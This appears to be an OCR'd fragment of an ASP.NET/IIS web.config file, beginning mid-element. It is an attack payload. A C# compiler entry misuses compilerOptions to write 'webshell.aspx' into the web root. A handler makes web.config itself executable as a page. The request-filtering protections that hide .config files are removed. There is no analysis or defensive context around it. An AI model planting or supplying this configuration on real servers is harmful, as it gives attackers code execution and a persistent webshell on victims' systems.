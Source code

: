             batchTimeout="900" maxBatchSize="1000" maxBatchGeneratedFileSize="1000" numRecompilesBeforeAppRestart="15"

            defaultLanguage="c#" targetFramework="4.0" urlLinePragmas="False" assemblyPostProcessorType="">

  

            <assemblies>

            </assemblies>

  

            <expressionBuilders>

            </expressionBuilders>

  

            <compilers>

                <compiler language="c#"

                    extension=".cs;.config"

                    type="Microsoft.CSharp.CSharpCodeProvider,System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"

                    warningLevel="4"

                    compilerOptions='/resource:"C:\inetpub\wwwroot\abc.txt" /out:"C:\inetpub\wwwroot\webshell.aspx" #'/>

            </compilers>

        </compilation>

    </system.web>

    <system.webServer>

        <handlers>

            <add name="web_config" path="web.config" verb="*" type="System.Web.UI.PageHandlerFactory" resourceType="File" requireAccess="Script" preCondition="integratedMode" />

        </handlers>

        <security>

            <requestFiltering>

                <fileExtensions>

                    <remove fileExtension=".config" />

                </fileExtensions>

                <hiddenSegments>

                    <remove segment="web.config" />

                </hiddenSegments>

            </requestFiltering>
